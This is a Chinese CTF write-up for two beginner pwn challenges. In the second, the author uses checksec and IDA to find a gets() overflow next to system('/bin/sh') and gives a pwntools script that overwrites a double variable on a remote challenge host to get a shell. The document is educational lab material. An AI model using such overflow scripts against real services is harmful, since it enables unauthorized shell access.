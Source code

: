 ## PWN-EasyOverflow1

![image-20220509193607393](resource/image-20220509193607393.png)



`给了个nc ip:port;`

nc连接后发现要求输入username，多次尝试输入发现规律，

username只读取前9位字符

![image-20220509193805827](resource/image-20220509193805827.png)

结合题意overflow可联想，超过9位的剩余字符在其他地方发挥了作用

尝试后可知，username处输入的10-18位成为了新的密码

![image-20220509194211988](resource/image-20220509194211988.png)

输入密码即可获得flag



担心同学想不到溢出，也留了个预设密码 password 让大家猜



## PWN-EasyOverflow2

![image-20220509194333125](resource/image-20220509194333125.png)

首先nc连接发现要题目要求我们输入一个数字，尝试输入无果

![image-20220509194716789](resource/image-20220509194716789.png)

打开附件

先用checksec 分析一下该文件

![image-20220509194500596](resource/image-20220509194500596.png)

发现基本保护全关

使用IDA打开该文件

![](resource/image-20220509195125937.png)

发现逆向出来的代码如上图

发现漏洞点 system（“/bin/sh”）

观察代码发现溢出点 gets()函数,并且在number处需要填入11.28125

![image-20220509195401457](resource/image-20220509195401457.png)

11.28125（double）用0x4026900000000000表示

计算溢出量0x1A-0x8

![image-20220509195721267](resource/image-20220509195721267.png)

编写脚本

```python
from pwn import * 
#连接
r = remote("81.69.243.226",30012)
#构造输入
payload = b'a'*18+p64(0x4026900000000000)

r.sendline(payload)
r.interactive()
```

运行脚本得到权限，找到flag

![image-20220509200018457](resource/image-20220509200018457.png)





